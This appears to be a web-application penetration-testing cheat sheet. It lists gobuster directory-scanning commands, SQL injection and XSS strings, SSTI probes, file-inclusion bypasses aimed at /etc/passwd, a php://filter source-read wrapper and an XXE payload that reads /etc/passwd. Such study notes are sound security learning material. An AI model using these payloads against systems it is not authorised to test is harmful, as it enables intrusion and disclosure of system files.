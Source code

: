 # webapp

## Manual scanning

- Check for `robots.txt` file.
- Check out the page's source code using dev tools.
- Software detection. Does the software have known vulnerabilities?
  - Software version (e.g. CMS)
  - Web server version (e.g. Apache 2.4.49)
- Software detection. Does this site / software have default credentials?
- Check for hostname. Are there email addresses that lead to clues?

## Automated scanning

- Run `gobuster` for finding directories on the web server.

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirb/wordlists/common.txt | tee gobuster/common.txt
```

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster/medium.txt
```

```shell
gobuster dir --url http://$ip --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,html,php | tee gobuster/extensions.txt
```

- Run `ffuf` for subdomain enumeration. 


## Injection attacks

- Check for SQL injection points using

```
' or 1=1--
```
```
' or 1=1 -- -
```

- Check for XSS (cross site scripting) vulnerabilities using

```
<h1>Hi</h1>
```
```
<script>alert('Hi');</script>
```

- Check for SSTI (server side template injection) using

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

See [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) for more information on server side template injection.

## File inclusion

- Check for file inclusions to the file `/etc/passwd`.
- Check for filter bypass
    - Use `.././..` instead of `../..`.
  - Use null bytes `%00` to bypass filters.
  - Use suffix `/etc/passwd/.` to bypass filters.
  - Use relative paths `dir/../../file/path` to bypass filters.
- Check for source code using

```
php://filter/convert.base64-encode/resource=post.php
```

- For nice file path targets see this [TryHackMe](https://tryhackme.com/room/fileinc) room.
- Go for remote file inclusions.

## XXE
Two payloads you can try are listed below.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

